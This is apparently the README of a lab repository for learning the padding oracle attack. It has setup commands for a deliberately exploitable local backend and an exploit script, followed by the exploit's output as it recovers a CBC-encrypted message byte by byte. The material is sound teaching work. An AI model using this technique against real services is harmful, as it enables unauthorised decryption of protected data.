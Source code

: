 # Some code for learning Padding Oracle Attack
There is a exploitable backend and an exploit script

# Setup
```bash
git clone https://gitlab.com/kmille/padding-oracle.git
python -m virtualenv -p python2 venv
source venv/bin/activate
cd padding-oracle
pip install -r requirements.txt

# Run the backend
source venv/bin/activate
gunicorn --bind 127.0.0.1:5000 backend:app

# Run the backend script in a new tab
source venv/bin/activate
cd padding-oracle
python exploit_backend.py # for more debug output disable some comments in oracle.Oracle.solve_oracle
```

# Example Output
<pre>
Get the encrypted message
IV:     7468697373686f756c646265726e646d
Cipher: 4eff7c78220e0a1d63439eb7707c2583d1acf7be521e2cdb7dcdd77e22676481
Let the backend decrypt the message for testing
Die ist ein beta Test
Ciphertext in hex(64): 4eff7c78220e0a1d63439eb7707c2583d1acf7be521e2cdb7dcdd77e22676481 
Ciphertext Blocks in hex: [u'4eff7c78220e0a1d63439eb7707c2583', u'd1acf7be521e2cdb7dcdd77e22676481']
Block counter: 1
Processing block #1: d1acf7be521e2cdb7dcdd77e22676481
Round counter: 0
Got no Padding Error for guess 0x89
Got intermediate byte #16: 88
All intermediates for this block: 88
Round counter: 1
Got no Padding Error for guess 0x2c
Got intermediate byte #15: 2e
All intermediates for this block: 882e
Round counter: 2
Got no Padding Error for guess 0x74
Got intermediate byte #14: 77
All intermediates for this block: 882e77
Round counter: 3
Got no Padding Error for guess 0x7f
Got intermediate byte #13: 7b
All intermediates for this block: 882e777b
Round counter: 4
Got no Padding Error for guess 0xb9
Got intermediate byte #12: bc
All intermediates for this block: 882e777bbc
Round counter: 5
Got no Padding Error for guess 0x93
Got intermediate byte #11: 95
All intermediates for this block: 882e777bbc95
Round counter: 6
Got no Padding Error for guess 0x4f
Got intermediate byte #10: 48
All intermediates for this block: 882e777bbc9548
Round counter: 7
Got no Padding Error for guess 0x60
Got intermediate byte #9: 68
All intermediates for this block: 882e777bbc954868
Round counter: 8
Got no Padding Error for guess 0x1f
Got intermediate byte #8: 16
All intermediates for this block: 882e777bbc95486816
Round counter: 9
Got no Padding Error for guess 0xb
Got intermediate byte #7: 01
All intermediates for this block: 882e777bbc9548681601
Round counter: 10
Got no Padding Error for guess 0xe
Got intermediate byte #6: 05
All intermediates for this block: 882e777bbc954868160105
Round counter: 11
Got no Padding Error for guess 0x5a
Got intermediate byte #5: 56
All intermediates for this block: 882e777bbc95486816010556
Round counter: 12
Got no Padding Error for guess 0x6
Got intermediate byte #4: 0b
All intermediates for this block: 882e777bbc954868160105560b
Round counter: 13
Got no Padding Error for guess 0x17
Got intermediate byte #3: 19
All intermediates for this block: 882e777bbc954868160105560b19
Round counter: 14
Got no Padding Error for guess 0xa4
Got intermediate byte #2: ab
All intermediates for this block: 882e777bbc954868160105560b19ab
Round counter: 15
Got no Padding Error for guess 0x7e
Got intermediate byte #1: 6e
All intermediates for this block: 882e777bbc954868160105560b19ab6e
Done with this round. Now XORING the intermediate bytes with the Cipher text of the previous ciphertext
Cipher before in hex  : 4eff7c78220e0a1d63439eb7707c2583
Recovered plain text: [' ', 'T', 'e', 's', 't', '\x0b', '\x0b', '\x0b', '\x0b', '\x0b', '\x0b', '\x0b', '\x0b', '\x0b', '\x0b', '\x0b'] 
Block counter: 0
Processing block #0: 4eff7c78220e0a1d63439eb7707c2583
Round counter: 0
Got no Padding Error for guess 0xd
Got intermediate byte #16: 0c
All intermediates for this block: 0c
Round counter: 1
Got no Padding Error for guess 0x12
Got intermediate byte #15: 10
All intermediates for this block: 0c10
Round counter: 2
Got no Padding Error for guess 0x8
Got intermediate byte #14: 0b
All intermediates for this block: 0c100b
Round counter: 3
Got no Padding Error for guess 0x14
Got intermediate byte #13: 10
All intermediates for this block: 0c100b10
Round counter: 4
Got no Padding Error for guess 0x40
Got intermediate byte #12: 45
All intermediates for this block: 0c100b1045
Round counter: 5
Got no Padding Error for guess 0xa
Got intermediate byte #11: 0c
All intermediates for this block: 0c100b10450c
Round counter: 6
Got no Padding Error for guess 0xa
Got intermediate byte #10: 0d
All intermediates for this block: 0c100b10450c0d
Round counter: 7
Got no Padding Error for guess 0x1
Got intermediate byte #9: 09
All intermediates for this block: 0c100b10450c0d09
Round counter: 8
Got no Padding Error for guess 0x5c
Got intermediate byte #8: 55
All intermediates for this block: 0c100b10450c0d0955
Round counter: 9
Got no Padding Error for guess 0x11
Got intermediate byte #7: 1b
All intermediates for this block: 0c100b10450c0d09551b
Round counter: 10
Got no Padding Error for guess 0x10
Got intermediate byte #6: 1b
All intermediates for this block: 0c100b10450c0d09551b1b
Round counter: 11
Got no Padding Error for guess 0x16
Got intermediate byte #5: 1a
All intermediates for this block: 0c100b10450c0d09551b1b1a
Round counter: 12
Got no Padding Error for guess 0x5e
Got intermediate byte #4: 53
All intermediates for this block: 0c100b10450c0d09551b1b1a53
Round counter: 13
Got no Padding Error for guess 0x2
Got intermediate byte #3: 0c
All intermediates for this block: 0c100b10450c0d09551b1b1a530c
Round counter: 14
Got no Padding Error for guess 0xe
Got intermediate byte #2: 01
All intermediates for this block: 0c100b10450c0d09551b1b1a530c01
Round counter: 15
Got no Padding Error for guess 0x20
Got intermediate byte #1: 30
All intermediates for this block: 0c100b10450c0d09551b1b1a530c0130
Done with this round. Now XORING the intermediate bytes with the Cipher text of the previous ciphertext
Cipher before in hex  : 7468697373686f756c646265726e646d
Recovered plain text: ['D', 'i', 'e', ' ', 'i', 's', 't', ' ', 'e', 'i', 'n', ' ', 'b', 'e', 't', 'a'] 
Done
Decrypted message: Die ist ein beta Test
</pre>

# Resources
 - https://en.wikipedia.org/wiki/Padding_oracle_attack

